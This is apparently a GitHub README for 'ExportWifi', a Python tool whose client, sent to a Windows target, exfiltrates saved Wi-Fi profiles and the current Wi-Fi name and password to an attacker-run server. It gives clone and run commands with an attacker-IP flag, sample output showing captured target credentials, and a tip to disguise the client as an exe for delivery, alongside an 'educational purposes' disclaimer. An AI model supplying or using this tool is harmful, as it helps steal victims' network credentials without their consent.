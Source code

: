 ExportWifi
==========

Created by: Fawaz Bashiru

This a module which imports WI-FI files and detects the current WI-FI name and the current WI-FI password of the target. Every imported file is going to be saved in the directory where your server is located.

To install ExportWifi simply type:

`git clone https://github.com/Kill0geR/ExportWifi`

In your Terminal

HOW DOES ExportWifi WORK?
-------------------------
The ip address and the port number should be the same so the connection will work

HOW TO USE ExportWifi?
---------------------
Change the directory

`cd ExportWifi`

TO FIND OUT YOUR IP-ADDRESS:
---------------------------

Linux: `ifconfig or ip a`

Windows: `ipconfig`

Start "wifi.py" with

 `python wifi.py -aip 127.0.0.1`
 
 -aip stands for ip of attacker
 
 -cf stands for create file
 
 -ds stands for demon server and means to have the server in your directory
 
 -p stands for ports and displays the port of the attacker
 
 If you need help simply type:
 
 `python wifi.py -help`

Output of Server
---------------
````commandline
Waiting for connection....
Connection with ('127.0.0.1', 53343)

Connection has been established
6 Wifi files have been saved to your directory
The current WI-FI and Password of the target is 

WI-FI: ********* The Wi-Fi of the target will be here 
Password: ******* The password of the target will be here
````


Additional
----------
* You can send "client.py" as an exe file to the target with "auto-py-to-exe"

* ExportWifi is very easy to use.

* The server can be used for any OS. The target can only have a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.
